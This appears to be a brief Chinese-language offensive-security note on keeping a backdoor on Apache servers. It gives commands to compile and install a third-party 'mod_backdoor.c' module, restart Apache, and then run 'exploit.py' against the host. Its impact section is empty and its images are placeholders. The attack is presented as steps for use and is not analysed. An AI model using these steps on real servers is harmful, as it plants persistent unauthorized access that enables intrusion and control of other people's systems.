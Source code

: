 # Apache后门维持

## 一、漏洞简介

通过运行第三方脚本，实现维持后门的方法

## 二、漏洞影响

## 三、复现过程

https://github.com/ianxtianxt/apache-

### 1、上传 mod_backdoor.c到服务器，并执行命令

```shell
apxs -i -a -c mod_backdoor.c && service apache2 restart
```

![image](images/img1.jpg)

### 2、控制端执行方法

```shell
python exploit.py 127.0.0.1 80
```

image
